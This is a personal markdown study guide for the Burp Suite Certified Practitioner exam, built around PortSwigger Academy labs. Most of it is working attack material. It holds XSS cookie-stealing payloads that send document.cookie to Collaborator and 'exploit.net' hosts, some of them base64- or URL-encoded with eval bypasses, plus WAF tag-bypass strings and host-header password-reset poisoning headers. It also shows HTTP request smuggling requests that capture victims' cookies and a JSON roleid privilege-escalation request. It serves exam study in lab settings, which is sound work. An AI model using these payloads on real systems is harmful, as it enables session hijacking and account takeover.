


# Burp-Suite-Certified-Practitioner-Exam-Study
My personal study notes on the PortSwigger Academy Burp Suite Certified Practitioner Exam topics.  

[Cross Site Scripting](#cross-site-scripting)  
[Host Header Poison - forgot-password](#host-header-poison---forgot-password)  
[HTTP Request Smuggling](#http-request-smuggling)  
[Privilege Escalation JSON RoleId](#privesc-json-roleid)  
[SQLi Data Exfiltration](#sql-injection-data-exfiltration)  


## Cross Site Scripting

+ [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
+ [PayloadsAllTheThings (XSS)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)  

### Cookie Stealers

### Reflected XSS in Search with WAF
>Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://Collaborator.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 formated strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  

  

>Hosting the **IFRAME** with eval() and fetch() payload on web exploit server, respectively base64 encoded and URL encoded.  

```html
<iframe src="https://TARGET.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```


### Reflected XSS in Search with blocked Tags
>Reflected XSS into HTML context with most tags and attributes blocked Bypass WAF
<sup>Body and event **'onresize'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
<sup>Body and event **'onpopstate'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```
[onpopstate event (XSS)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

[Methodology to identify allowed tags and events - PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  

#### URL and Base64 online encoders and decoders  
[URL Decode and Encode](https://www.urldecoder.org/)  
[BASE64 Decode and Encode](https://www.base64encode.org/)    
  
### Stored XSS

#### Blog post comment section
```html

```  

#### Product and Store lookup
```html
?productId=1&storeId="></select>
```  

#### Stored XSS Blog post
```JavaScript
<script>
document.write('');
</script>
```  

#### Fetch API Cookie Stealer in blog comment
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```  

## Host Header Poison - forgot-password

### Authentication

### Spoof IP Address
>Identify that the alternate HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.  
  
<sub>Change the username parameter to carlos and send the request.</sub>
```html
X-Forwarded-Host: EXPLOIT-SERVER-ID.exploit-server.net
X-Host: EXPLOIT-SERVER-ID.exploit-server.net
X-Forwarded-Server: EXPLOIT-SERVER-ID.exploit-server.net
```
<sup>Check the exploit server log to obtain the reset link to the victim username.</sup>
  
  

[PortSwigger Lab: Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)  

## HTTP Request Smuggling

>Architecture with front-end and back-end server, and front-end or backend does not support chunked encoding(HEX) or content-length(Decimal).  Bypass security controls to retrieve the victim's request and use the victim user's cookies to access their account.
  
<sub>Manually fixing the length fields in request smuggling attacks, requires each chunk size in bytes expressed in **hexadecimal**, and _ _Content-Length_ _ specifies the length of the message body in **bytes**. Chunk consists are followed by a **newline**, followed by the chunk contents. The message is terminated with a chunk of size zero.</sub>   

### Content-Length Capture victim requests

>Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to 850, then smuggle it to the back-end server.

```html
POST / HTTP/1.1
Host: 0af8006004fb07f5c46a3c4600b20065.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=rmK9dkBeR1V3lg2bCgjfOkyBxImZMb6P

csrf=nVFjkw2QdI4G6hDY9nW39x0KOtFebyAd&postId=8&name=c&email=c%40c.c&website=&comment=c
```
  
  

>View the blog **post** to see if there's a comment containing a user's request. Note that once the victim user browses the target website, then only will the attack be successful. Copy the user's Cookie header from the blog post comment, and use the cookie to access victim's account.
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  

### User-Agent Cookie Stealer

>Exploiting HTTP request smuggling to deliver reflected XSS using **User-Agent** value in smuggled request.  

<sup>Basic Cross Site Scripting Payload</sup>  

```JavaScript
 "/><script>alert(1)</script>
```

<sub>COOKIE STEALER Payload</sub>  

```JavaScript
a"/><script>document.location='http://Collaborator.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```  

>Smuggle this XSS request to the back-end server, so that it exploits the next visitor.  

```html
POST / HTTP/1.1
Host: 0acc008e03af84c3c0274fe0004e00d4.web-security-academy.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://j0kk3reuzdhg8gslbbcrqwdtnktbh15q.oastify.com/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```  

  

>Check the PortSwigger Collaborator Request received from victim browsing target.  
  
  

[PortSwigger Lab: Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)  

>If Duplicate header names are allowed, and the vulnerability is detected as **dualchunk**, then add an additional header with name and value = **Transfer-encoding: cow**.  

## PrivEsc JSON RoleId

>Access control to the admin interface is based on user roles, and this can lead to IDOR or accessc ontrol security vulnerability.  

<sub>Capture current logged in user email submission request and send to Intruder, then add "roleid":§99§ into the JSON body of the request, and fuzz the possible roleid for administrator access role.</sub>  

```html
POST /my-account/change-email HTTP/1.1
Host: 0a25007604813b07c2066cf20023004d.web-security-academy.net
Cookie: session=vXAA9EM1hzQuJwHftcLHKxyZKtSf2xCW
Content-Length: 48
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Connection: close

{
 "email":"newemail@wiener.peter",
 "roleid": 2
}
```  

  

>Attack identify the possible role ID of administrator access role and then send this request with updated roleId to privile escalate the current logged in user to role of administator of target.  

  

[PortSwigger Lab: User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)  


## SQL Injection Data Exfiltration

>Blind SQL injection vulnerability, in application used to perform an SQL query to extract data or login credentials from data for administratot. SQLMAP used to fast track the exploit and retrieve the sensitive information.  

```sql
select * from users;

```

[PortSwigger Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)  

